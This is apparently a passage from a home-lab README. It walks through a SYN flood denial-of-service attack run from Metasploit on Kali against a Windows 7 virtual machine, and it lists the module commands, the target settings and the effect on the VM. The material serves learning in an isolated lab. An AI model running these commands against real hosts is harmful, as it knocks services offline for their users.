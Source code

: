 
<br />
Right click the Task Bar and select " start task manager".  <br/>
<img src="https://i.postimg.cc/vmBj3nqj/Screen-Shot-2022-08-30-at-3-42-40-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />




<br />
You will observe the tasks currently running on the VM.  <br/>
<img src="https://i.postimg.cc/XYDxNzLH/Screen-Shot-2022-08-30-at-3-44-44-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />




<br />
Minimize the virtual machine and on the Kali OS go to the left sidebar and select Metasploit Framework.  <br/>
<img src="https://i.postimg.cc/L5CgkrnG/Screen-Shot-2022-08-30-at-3-47-16-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />






<br />
Execute the following commands in metasploit framework.  <br/>
1. use auxiliary/dos/tcp/synflood <br/>
2. show options <br/>
3. set INTERFACE virbr0 <br/>
4. set RHOST 192.168.122.7 <br/>
5. exploit <br/>
<img src="https://i.postimg.cc/9f0Txd6v/Screen-Shot-2022-08-30-at-3-52-31-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />




<br />
Minimize the Metasploit Framework window and go back to the Win7 VM window. You will notice that the VM is extremely slow and unreactive  <br/>
<img src="https://i.postimg.cc/C1FyTKNT/Screen-Shot-2022-08-30-at-3-55-01-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />




<br />
Go back to the Metasploit Framework window and end the attack by pressing ctrl+c.  <br/>
<img src="https://i.postimg.cc/C1Bw65Lh/Screen-Shot-2022-08-30-at-3-58-32-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />





<br />
You can now return to the win7 VM and see that it is usable again  <br/>
<img src="https://i.postimg.cc/ydzL2r7D/Screen-Shot-2022-08-30-at-4-00-48-PM.png" height="80%" width="80%" alt="Configuring Advanced Ethernet Options Steps"/>
<br />
